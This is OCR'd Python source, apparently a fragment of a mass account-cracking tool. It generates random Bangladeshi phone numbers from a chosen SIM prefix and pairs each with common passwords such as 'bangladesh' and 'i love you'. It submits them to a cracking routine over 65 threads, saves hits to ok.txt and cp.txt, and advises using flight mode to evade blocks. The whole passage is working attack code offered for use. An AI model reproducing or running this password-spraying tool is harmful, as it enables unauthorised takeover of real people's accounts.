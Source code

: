 	else:
		print('\n\033[1;31mChoose valid option\033[0;97m')
		menu()
#____
def random_number1():
	uid=[]
	os.system('clear')
	print(logo)
	print('\x1b[92;1m[√] EXAMPLE :88017,88019,88018,88016.''\x1b[1;91mETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	limit = int(input('\x1b[97;1m[+]How many numbers do you want to add ? '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=65) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print('\x1b[97;1m[*] Total Acounts : '+tl)
		print('\x1b[97;1m[+] Ypur Select Code : '+kode)
		print('\x1b[1;91m[*] If You No Result Use Flight Mode ')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode]
			yaari.submit(fcrack,uid,pwx,tl)
	print(47*"—") 
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	print(47*"—") 
	input('Press Enter To Go Back To Menu')
	fia()
#____
def random_number2():
	uid=[]
	os.system('clear')
	print(logo)
	print('\x1b[92;1m[√] EXAMPLE :88017,88019,88018,88016.ETC')
	linex()
	kode = input('[+]\x1b[97;1m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	limit = int(input('\x1b[97;1m[+]How many numbers do you want to add ? '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=65) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print('\x1b[97;1m[*] Total Acounts : '+tl)
		print('\x1b[97;1m[+] Ypur Select Code : '+kode)
		print('\x1b[1;91m[*] If You No Result Use Flight Mode ')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = ['+88','bangladesh','Bangladesh','i love you']
			yaari.submit(fcrack,uid,pwx,tl)
	print(47*"-")
	print('[✓] Crack process has been completed')
	print('[?] Ids saved in ok.txt,cp.txt')